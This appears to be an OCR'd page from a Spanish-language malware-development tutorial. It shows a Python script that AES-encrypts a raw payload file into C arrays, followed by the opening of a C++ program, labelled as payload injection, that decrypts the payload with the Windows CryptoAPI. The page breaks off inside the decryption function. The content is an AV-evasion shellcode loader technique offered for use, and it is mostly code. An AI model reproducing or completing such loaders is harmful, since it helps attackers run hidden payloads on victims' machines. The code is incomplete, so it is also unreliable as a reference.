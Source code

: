 ```c++
BOOL CryptDecrypt(
  HCRYPTKEY hKey,        // handle to the key to use for the decryption
  HCRYPTHASH hHash,      // handle to a hash object. If no hash, must be zero
  BOOL      Final,       // specifies whether this is the last section in a series being decrypted. If TRUE - the last block.
  DWORD     dwFlags,     // possible values: CRYPT_OAEP or CRYPT_DECRYPT_RSA_NO_PADDING_CHECK
  BYTE      *pbData,     // pointer to a buffer that contains the data to be decrypted. After the decryption, the plaintext is placed back into this same buffer.
  DWORD     *pdwDataLen  // length of the pbData buffer
);
```

El código fuente apra la encriptacion con AES utilizando python3:
```python
import sys
from base64 import b64encode
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
from Crypto.Random import get_random_bytes
import hashlib

KEY = get_random_bytes(16)
iv = 16 * b'\x00'
cipher = AES.new(hashlib.sha256(KEY).digest(), AES.MODE_CBC, iv)

try:
    plaintext = open(sys.argv[1], "rb").read()
except:
    print("File argument needed! %s <raw payload file>" % sys.argv[0])
    sys.exit()

ciphertext = cipher.encrypt(pad(plaintext, AES.block_size))

print('AESkey[] = { 0x' + ', 0x'.join(hex(x)[2:] for x in KEY) + ' };')
print('payload[] = { 0x' + ', 0x'.join(hex(x)[2:] for x in ciphertext) + ' };')
```
EL código funte para la inyección de código con de un payload encriptado con AES:
```c++
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <wincrypt.h>
#pragma comment (lib, "crypt32.lib")
#pragma comment (lib, "advapi32")
#include <psapi.h>


int AESDecrypt(char * payload, unsigned int payload_len, char * key, size_t keylen) {
        HCRYPTPROV hProv;
        HCRYPTHASH hHash;
        HCRYPTKEY hKey;
        if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)){
                return -1;
        }
        if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)){
                return -1;
        }
        if (!CryptHashData(hHash, (BYTE*)key, (DWORD)keylen, 0)){
                return -1;              
        }
        if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0,&hKey)){
                return -1;
        }
```